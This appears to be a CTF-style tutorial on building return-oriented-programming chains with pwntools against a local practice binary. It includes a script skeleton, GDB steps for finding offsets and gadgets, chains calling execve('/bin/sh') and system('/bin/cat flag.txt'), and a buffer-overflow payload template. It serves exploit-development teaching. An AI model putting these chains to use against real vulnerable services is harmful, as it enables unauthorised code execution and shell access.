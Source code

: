 # Building ROPChains With PWNTools

1. Setup the Python script

```python3
from pwn import *   # import pwntools

context.log_level = "debug"   # Debugging information
context.binary = elf = ELF("./vuln")    # Set architecture info
io = process()    # Create a process with the loaded elf
rop = ROP(elf)    # Create the ROP object
```

2. Use GDB (pwndbg) to find the vulnerable buffer/offset to control the EIP/RIP

`cyclic`

3. Find useful functions by disassembling the binary (e.g. system(), usefulFunction(), print_flag(), you get the idea)

```bash
# in GDB
b main
run
search system
search exec
# OR
i functions
disassemble main    # disassemble other functions to find any interesting function calls
```

4. Find addresses of any strings in the binary that are required for the function call

```bash
# In GDB
b main
run
search /bin   # search for strings that contain "/bin" - adjust as needed
```

4.5. Automate searching for strings

```python3
context.binary = elf = ELF('/bin/sh')
libc = elf.libc

elf.address = 0xAA000000
libc.address = 0xBB000000

rop = ROP([elf, libc])

binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)
```

5. Use ROP in pwntools to create a ropchain which can be placed into your payload

The chain that is printed can be pulled apart and manipulated, e.g. if alternate addresses need to be used  

```python3
# Using system("/bin/cat flag.txt) as an example
# address of "/bin/cat flag.txt" in the binary: 0x0804a030
rop.system(0x0804a030)
# print(rop.dump())   # prints the 'pretty' view of values with the corresponding instruction
# print(rop.chain())    # prints the chain which can be appended to your payload
```

6. Build your payload

```python3
payload = b""
payload += b"A" * offset
payload += rop.chain()
```

7. Send your payload and get your flag/shell!
